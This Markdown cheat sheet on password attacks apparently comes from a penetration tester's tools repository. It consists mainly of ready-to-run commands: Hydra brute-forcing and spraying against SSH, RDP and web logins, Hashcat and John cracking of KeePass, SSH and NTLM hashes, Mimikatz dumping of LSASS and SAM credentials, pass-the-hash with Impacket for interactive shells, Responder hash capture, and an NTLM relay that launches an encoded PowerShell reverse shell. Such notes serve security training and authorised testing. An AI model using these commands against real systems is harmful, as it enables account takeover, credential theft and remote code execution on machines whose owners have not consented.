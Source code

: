 # Password attacks

Graphics card cracking: 
- https://openbenchmarking.org/test/pts/hashcat-1.0.0
- https://www.tomshardware.com/news/eight-rtx-4090s-can-break-passwords-in-under-an-hour

Check:
- https://scatteredsecrets.com/

## Hydra

On GitHub: https://github.com/vanhauser-thc/thc-hydra

### Wordlist

```
hydra -l user -P wordlist.txt -s PortVictim ssh://IpVictim
hydra -l user -P wordlist.txt rdp://IpVictim # default port is 3389
```

### Spraying

```
hydra -L userlist.txt -p "hackedpassword" rdp://IpVictim
```
Userlist on Kali: `/usr/share/wordlists/dirb/others/names.txt`

### Http

Check the source code to get the user and password field names:
```
hydra -P wordlist.txt $IpVictim http-post-form "/baseurl_like_index.html_or_php:user_form_field=admin:password_form_field=^PASS^:error message when password is wrong"
hydra -l user -P wordlist.txt http-get $IpVictim
```

## Hashcat

Benchmark: `-b` \
Example of rule: https://hashcat.net/wiki/doku.php?id=rule_based_attack
```
: ---> do nothing
$1 ---> add '1' and the end
c $1 $2 $3 ---> capitalize, add '1', then '2', then '3' at the end
$ ---> append a whitespace
^ ---> prepend a whitespace
$1 c $! ---> append '1', then capitalize, then add '!' at the end
$2 c $! ---> append '2', then capitalize, then add '!' at the end
$1 $2 $3 c $! ---> append '1', then '2', then '3', then capitalize, then append '!'
```
Usage:
```
hashcat -r rulefile.rule wordlist.txt --stdout
hashcat -m 0 tocrackfile.txt wordlist.txt -r rulefile.rule --force # MD5 hash (-m 0), ignore GPU warnings (--force)

hastcat wordlist.txt -r rulelist.txt --stdout
hashcat wordlist.txt -j 'd' wordlist.txt --stdout > newwordlist.txt
hashcat -m 0 tocrack.txt -k 'u' newwordlist.txt --force
hashcat -m passman.mode passman.hash rockyou.txt -r rockyou-30000.rule --force
```
Common rules: `/usr/share/hashcat/rules/` (for rockyou: `rockyou-30000.rule`)

## JohnTheRipper

### Keepass cracking

Find the database on Windows: `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue` \
Then upload it on Kali: https://github.com/ThomasBucaioni/pentools/blob/main/filetransfer/readme.md#powershell \
And crack it with JohnTheRipper:
```
keepass2john Database.kdbx > keepass_hashfile.txt
hashcat --help | grep -i keepass # mode number for KeePass: 13400
hashcat -m keepass_mode_number keepass_hashfile.txt /u/s/w/rockyou.txt -r /u/s/hashcat/rules/rockyou-30000.rule --force
```

### Ssh passphrase cracking

```
ssh2john id_rsa > ssh.hash
hashcat -h | grep -i "ssh"
hashcat -m ssh.hashcat.mode ssh.hash ssh.passwords -r ssh.rule --force
cp ssh.rule /etc/john/otherssh.rule
vim /etc/john/john.config
john --wordlist=ssh.passwords --rules=sshJohnRules ssh.hash
```
Example of rule file:
```
[List.Rules.sshJohnRules]
p1 u
$1 $2 $3 c $!
```

---

## Mimikatz

Password modules:
- extraction from [LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service): `sekurlsa::logonpasswords`
- dump: `lsadump::sam` (lighter)

Access right needed:
- extraction: __SeDebugPrivilege__
- privilege escalation ("impersonation"): __SeImpersonatePrivilege__ (e.g. local administrators)

Commands:
```
mimikatz # privilege::debug # with SeDebugPrivilege access rights
mimikatz # token::elevate # with SeImpersonatePrivilege access rights
mimikatz # lsadump::sam # hash dump
```

## NTLM hash cracking

On Windows:
```
PS> Get-LocalUser
PS> c:\path\to\mimikatz.exe
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # lsadump::sam
```
Take the hashes back to Kali:
```
hashcat -h | grep -i ntlm # get the NTLM mode code: 1000
hashcat -m ntlm_mode_code user_hash.txt /u/s/w/rockyou.txt -r /u/s/h/r/best64.rule --force
```

## Pass NTLM

Tools to pass-the-hash:
- SMB enumeration and attack: 
    - `smbclient`
    - CrackMapExec: https://github.com/byt3bl33d3r/CrackMapExec
- get an _interactive shell_ with Impacket: https://github.com/fortra/impacket
    - [psexec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py)
    - [wmiexec.py](https://github.com/fortra/impacket/blob/master/examples/wmiexec.py)

Steal the Administrator's hash or Workstation_1 and connect to a Samba share on Workstation_2 (if same password...):
```
kali$ smbclient \\\\IpVictim_Workstation_2\\someshare -U Administrator --pw-nt-hash adminhash # pass the local "Administrator" account hash on WS_1
    smb: \> get somepassfile.txt # in the Samba share, get files
```
Get an interactive shell, if same Administrator hash/password on both Workstation_1 and Workstation_2:
```
kali$ impacket-psexec -hashes 00000000000000000000000000000000:adminhash Administrator@IpVictim_Workstation_2 # nt authority\system
kali$ impacket-wmiexec -hashes 00000000000000000000000000000000:adminhash Administrator@IpVictim_Workstation_2 # host\administrator
```

## Net-NTLMv2

When taking control of a low privilege user (with/without password), Mimikatz can't extract hashes.
The [Responder](https://github.com/lgandx/Responder) can catch the hash from a connection request from this user to crack it (if password unknown).

On Kali, run the responder:
```
sudo responder -I ethX
```
On Windows, with the compromised user (unknown password), send a connection request to the responder to get the hash:
```
smb \\IpAtt\fakeshare
```
then crack the password with `hashcat`:
```
hashcat --help | grep -i ntlm
hashcat -m ntlm_v2_mode_code lowprivuser_hash.txt /u/s/w/rockyou.txt --force
```
Once we know the password, we can connect to other stations with this user. For example, until we find one where he/she is a local administrator an run Mimikatz.

## Relay Net-NTLMv2

If the Net-NTLMv2 password is too complex and can't be cracked, its hash can still be exploited to connect to other stations:
```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t IpVictim_Workstation_2 -c "powershell -enc base64_reverse_shell_long_string"
```
From Workstation_1, the connection to Kali is relayed to Workstation_2, which accepts the Net-NTLMv2 hash for connection. \
If the low privilege user is a local administrator on Workstation_2, the SAM hashes can be dumped or passed with Mimikatz. \
Relaying the Net-NTLMv2 hash on Workstation_2 needs "User Access Control remote restrictions" to be disabled for low privilege users. If UAC remote restrictions is enabled, the Net-NTLMv2 relay attack still works with the local _Administrator_ account


